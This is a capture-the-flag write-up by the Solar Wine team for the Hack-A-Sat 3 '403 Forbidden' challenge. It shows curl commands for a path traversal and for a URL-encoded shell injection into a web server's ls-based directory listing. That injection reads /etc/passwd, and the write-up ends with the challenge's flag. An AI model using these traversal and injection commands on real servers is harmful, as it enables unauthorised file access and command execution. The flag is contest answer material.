

# HACK-A-SAT 3: 403 Forbidden

* **Category:** Turnstile Services
* **Points:** 10000
* **Description:**

Successfully access to the forbidden folder on the provided server.


## Write-up

_Write-up by Solar Wine team_

An IP was provided by organizers: 10.23.223.25, with a webserver running on it:


The folder <http://10.23.223.25/groundstations/> is forbidden, it seems promising to try to access it.

First we ran gobuster to enumerate a bit the webserver, but we found nothing special.

Then, we noticed a directory listing on the assets folder: <http://10.23.223.25/assets/>.

Finally, a path traversal was found:

```bash
curl -v --path-as-is http://10.23.223.25/assets/../../../
GET /assets/../../../ HTTP/1.1
HTTP/1.1 200 OK
Content-Length: 159
Content-Type: text/plain
Connection: close

total 68
-rwxr-xr-x 1 root root 57072 Oct 22 05:34 has3-web
-rw-rw-rw- 1 root root   205 Oct 22 05:34 server.ini
drwxrwxrwx 1 root root  4096 Oct 22 05:34 www
```

We could find the `has3-web` binary and its associated configuration. It's a Linux x64 web server. We found the following code:



The man pages of `getdents(2)` and `readdir(3)` being slightly longer than the one of `system(3)`, the file listing functionality was implemented by executing `ls`on the target directory. We found that the proper way to URLencode a shell injection that would work in HTTP was to start the injection point with `%20|` and finish it with `/`.

```bash
curl -v --path-as-is http://10.23.223.25/assets%20|cat%20/etc/passwd/
```

We used it to list the Ground Stations folder:

```bash
/server/www/html/groundstations:
.
..
.access
index.html
index_Cordoba.html
index_Guam.html
index_Hawaii.html
index_Kathmandu.html
index_LosAngeles.html
index_Maspalomas.html
index_Mauritius.html
index_Melbourne.html
index_Mingenew.html
index_Tokyo.html
index_organizers_mcmurdo.html
index_organizers_svalbard.html
index_perfectblue_mcmurdo.html
index_perfectblue_svalbard.html
index_poland_mcmurdo.html
index_poland_svalbard.html
index_samurai_mcmurdo.html
index_samurai_svalbard.html
index_science-station.html
index_singleevent_mcmurdo.html
index_singleevent_svalbard.html
index_solarwine_mcmurdo.html
index_solarwine_svalbard.html
index_spacebits_mcmurdo.html
index_spacebits_svalbard.html
index_weltalles_mcmurdo.html
index_weltalles_svalbard.html
rx_settings_organizers_svalbard.json
rx_settings_perfectblue_mcmurdo.json
rx_settings_perfectblue_svalbard.json
rx_settings_poland_mcmurdo.json
rx_settings_poland_svalbard.json
rx_settings_science-station.json
rx_settings_singleevent_mcmurdo.json
rx_settings_singleevent_svalbard.json
rx_settings_solarwine_mcmurdo.json
rx_settings_solarwine_svalbard.json
rx_settings_spacebits_mcmurdo.json
rx_settings_spacebits_svalbard.json
rx_settings_weltalles_mcmurdo.json
rx_settings_weltalles_svalbard.json
```

And we found a flag folder with a flag.txt inside:

```bash
/server/www/html/flag:
.
..
.access
flag.txt
```

So we retrieved the content of flag.txt:

```bash
flag{iJiTL6c0dNICRpze}
flag=iJiTL6c0dNICRpze
iJiTL6c0dNICRpze
```

Flag is: `flag{iJiTL6c0dNICRpze}`
